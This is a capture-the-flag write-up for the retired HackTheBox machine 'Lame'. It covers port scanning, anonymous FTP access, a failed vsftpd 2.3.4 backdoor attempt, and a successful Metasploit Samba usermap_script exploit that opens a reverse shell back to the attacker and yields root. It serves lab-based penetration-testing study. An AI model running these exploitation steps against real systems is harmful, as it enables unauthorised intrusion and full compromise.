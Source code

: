 ```yaml
---
title: Lame
date: 2023-01-19 03:33:00 -5000
categories: [OSCP Prep,HTB Linux Retired]
tags: []
---
```

# Lame
![Lame.png](/Assets/Pictures/Lame.png)
This is a retired box from [HackTheBox(HTB)](https://app.hackthebox.com/machines/Lame/). Being part of TJnull's list for OSCP Preparation. I had to tackle it.

# Intelligence Gathering

Let’s look at open ports

```bash
PORT    STATE SERVICE      REASON
21/tcp  open  ftp          syn-ack ttl 63
22/tcp  open  ssh          syn-ack ttl 63
139/tcp open  netbios-ssn  syn-ack ttl 63
445/tcp open  microsoft-ds syn-ack ttl 63
```

let’s get the service version and run some default nmap script of these open ports

```bash
PORT    STATE SERVICE     REASON         VERSION
21/tcp  open  ftp         syn-ack ttl 63 vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.16.8
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
139/tcp open  netbios-ssn syn-ack ttl 63 Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn syn-ack ttl 63 Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
Service Info: OS: Unix

Host script results:
|_ms-sql-info: ERROR: Script execution failed (use -d to debug)
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 59488/tcp): CLEAN (Timeout)
|   Check 2 (port 31947/tcp): CLEAN (Timeout)
|   Check 3 (port 15886/udp): CLEAN (Timeout)
|   Check 4 (port 40169/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
|_smb-os-discovery: ERROR: Script execution failed (use -d to debug)
|_smb-security-mode: ERROR: Script execution failed (use -d to debug)
|_smb2-security-mode: Couldn't establish a SMBv2 connection.
|_smb2-time: Protocol negotiation failed (SMB2)
```

# Enumeration

## FTP Enumeration

With FTP, there is a way to log in with default credentials `anonymous:anonymous`. As shown below, these creds gave us access to the victim’s FTP server.

```bash
➜  ftp 10.10.10.3
Connected to 10.10.10.3.
220 (vsFTPd 2.3.4)
Name (10.10.10.3:retr0x01): anonymous
331 Please specify the password.
Password: **anonumous(Not shown on the screen)**
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp>
```

Although we logged in, we were not able to find anything on the FTP server.

Let’s find the vulnerability belonging to the version of the service we found earlier.  After some googling we found the exploit for this version of FTP.

```bash
➜  searchsploit vsftp
--------------------------------------------------------------------------------- ------------------------------
 Exploit Title                                                                    |  Path
--------------------------------------------------------------------------------- ------------------------------
vsftpd 2.0.5 - 'CWD' (Authenticated) Remote Memory Consumption                    | linux/dos/5814.pl
vsftpd 2.0.5 - 'deny_file' Option Remote Denial of Service (1)                    | windows/dos/31818.sh
vsftpd 2.0.5 - 'deny_file' Option Remote Denial of Service (2)                    | windows/dos/31819.pl
vsftpd 2.3.2 - Denial of Service                                                  | linux/dos/16270.c
vsftpd 2.3.4 - Backdoor Command Execution                                         | unix/remote/49757.py
vsftpd 2.3.4 - Backdoor Command Execution (Metasploit)                            | unix/remote/17491.rb
vsftpd 3.0.3 - Remote Denial of Service                                           | multiple/remote/49719.py
--------------------------------------------------------------------------------- ------------------------------
```

We have two ways to exploit this vulnerability. Let’s get it in our host and exploit it

```bash
➜  searchsploit vsftp -m 49757
[!] Could not find EDB-ID #

  Exploit: vsftpd 2.3.4 - Backdoor Command Execution
      URL: https://www.exploit-db.com/exploits/49757
     Path: /snap/searchsploit/62/opt/exploitdb/exploits/unix/remote/49757.py
    Codes: CVE-2011-2523
 Verified: True
File Type: Python script, ASCII text executable
Copied to: /home/Lame/Exploitation/vsftpd_2.3.4_Exploit/49757.py
```

The exploit did not seem to work manually. Let’s go with the automated way, using the metasploit framework (MSF)

```bash
#Firstly, we search for the exploit on msf
msf6 > search vsftp
#Secondly, we use the exploit
msf6 > use 0
#Third, we check the options needed to run the exploit
msf6 > show options
#Fourth, we set the needed arguments
msf6 > set rhosts 10.10.10.3
#Finally we run the exploit
msf6 > exploit
```

After waiting for some time, the exploit did not run successfully as shown here.

```bash
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > exploit

[*] 10.10.10.3:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 10.10.10.3:21 - USER: 331 Please specify the password.
[*] Exploit completed, but no session was created.
```

let’s carry on and try another service enumeration

## SMB Enumeration

SMB or Samba, is also known to be easy to enumerate. Let’s start our enumeration on this service.
First let’s see what kind of share we have on this SMB server using smbmap

```bash
➜  smbmap -H 10.10.10.3
[+] IP: 10.10.10.3:445  Name: 10.10.10.3                                        
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        print$                                                  NO ACCESS       Printer Drivers
        tmp                                                     READ, WRITE     oh noes!
        opt                                                     NO ACCESS
        IPC$                                                    NO ACCESS       IPC Service (lame server (Samba 3.0.20-Debian))
        ADMIN$                                                  NO ACCESS       IPC Service (lame server (Samba 3.0.20-Debian))
```

As we can see using smbmap, we can check different shares and also we can know the permission we have for all the shares. From what we can see here, we have read and write access on the `/tmp` share. Let’s enumerate that share. using the regular anonymous method to  enumerate the Samba server did not get us anywhere. After some googling, we found [this](https://amolblog.com/139-tcp-open-netbios-ssn-samba-smbd-3-x-4-x/) article and it helped us exploit the vulnerability of these SMB versions.

# User & Privesc

This was lame for a reason, because this vulnerability gives root access right off the bat. So no need to gain user first and try to escalate privileges. Just getting in with super user privileges.

```bash
#Firstly, we search for the exploit on msf
msf6 > search samba 3
#Secondly, we use the exploit
msf6 > use exploit/multi/samba/usermap_script
#Third, we check the options needed to run the exploit
msf6 > show options
#Fourth, we set the remote host
msf6 > set rhosts 10.10.10.3
#Fifth, we set our local interface or address
msf6 > set lhost tun0
#Finally, run the exploit
msf6 > exploit
#Results
msf6 exploit(multi/samba/usermap_script) > exploit 

[*] Started reverse TCP handler on 10.10.16.8:4444 
[*] Command shell session 1 opened (10.10.16.8:4444 -> 10.10.10.3:55027) at 2023-01-19 03:17:00 -0600

whoami
root
pwd
/
```

The box is done, Since we have the higher privilege there is nothing else to do at this point expect navigate and get the differents flag. It was lame because of the rabbit hole and the exploitation. But a great box overall.

Thanks for reading me, enjoy !